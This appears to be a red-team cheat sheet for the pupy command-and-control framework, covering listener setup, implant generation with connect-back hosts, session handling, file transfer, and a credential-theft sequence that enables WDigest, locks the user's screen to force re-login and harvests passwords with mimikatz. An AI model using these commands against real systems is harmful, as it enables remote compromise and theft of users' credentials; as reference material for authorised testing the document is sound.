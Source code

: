 === pupy

https://github.com/n1nj4sec/pupy

pupy is a fun little Command and Control (C2) and implant written in python and C. It has a few oneliner clients that make it fairly versatile.

==== Setting up the listeners

The webserver isn't really a listener, but is used to deliver payloads to oneliners.

[cols="1,1", options="header"]
|===
|Command                               |Description
|`config list webserver`               |Get webserver configuration
|`config set webserver listen ADDRESS` |Change webserver port. Must save and restart if changed.
|`config save`                         |Save config
|===

The default config has an `ssl` listener ready to go on port 443. There's not much to configure here.

[cols="1,1", options="header"]
|===
|Command                         |Description
|`config set listeners ssl 8443` |Change port of ssl listener
|===

There's a udp listener available. It needs to be configured before use.

[cols="1,1", options="header"]
|===
|Command                              |Description
|`config set listeners udp_secure 53` |Change port of udp_secure listener
|`listen -a udp_secure`               |Start udp_secure listener
|===

==== Interacting

[cols="1,3", options="header"]
|===
|Command         |Description
|`sessions`      |List current sessions
|`sessions -i N` |Interact with a specific one, if multiple.
|`shell`         |Start an interactive shell on the current session.
|`sessions -K`   |Request all sessions to exit
|===

<<<

==== Generating clients

pupy calls the implants clients. Clients are generated with the `gen` command

  gen GENFLAG connect CONNECTFLAG

[cols="1,1", options="header"]
|===
|`gen` Flags                           |Description
|`-f client\|py_onliner\|ps1_oneliner` |Generate a standalone client or python or powershell oneliner.
|`-O windows\|linux`                   |Set OS
|`-A x86\|x64`                         |Set arch
|===

[cols="1,1", options="header"]
|===
|Connect Flags        | Description
|`-t ssl\|udp_secure` |Type of connection, ssl or udp_secure
|`--host ADDRESS`     |IP and port of listener
|===

==== File transfer

[cols="1,3", options="header"]
|===
|Command                           |Description
|`download remote_path local_path` |Download a file
|`upload local_path remote_path`   |Upload a file
|===

==== Sessions

Sessions are identified by numeric ID. They can be tagged. Clients are identified by a MAC address.

  tag -a 080027a66ed2 080027a66ed2

Tag the sessions of client `080027a66ed2` as `080027a66ed2`. This doesn't seem intuitive at first, but in combination with the `on_connect` config options mentioned below it's powerful.

  sessions

Show the current filtered session, or all sessions. Include the tags set with `tag`.

  config set on_connect 080027a66ed2_1 mimikatz

Run the command `mimikatz` on the client `080027a66ed2` when it connects. This specific on_connect setting is `1`.

==== Modules of note

  mimikatz --wdigest check

Check to see if WDigest is enabled via the `UseLogonCredential` registry key.

  mimikatz --wdigest enable

Enable WDigest if it's not enabled.

  lock_screen

Force the screen to lock and the user to reenter creds. This needs to be run as the logged in user, not NT AUTHORITY\SYSTEM.

  mimikatz

Use mimikatz to run `loginPasswords` and add any passwords found, via WDigest or otherwise, to `creds`.

==== Common snippets

  gen -f py_oneliner -O linux -A x64 connect -t ssl --host localhost:443

Generate a python oneliner

  gen -f client -O windows -A x64 -o /tmp/pupy.exe connect -t ssl --host localhost:443 --host localhost:8443

Generate an executable for windows

<<<
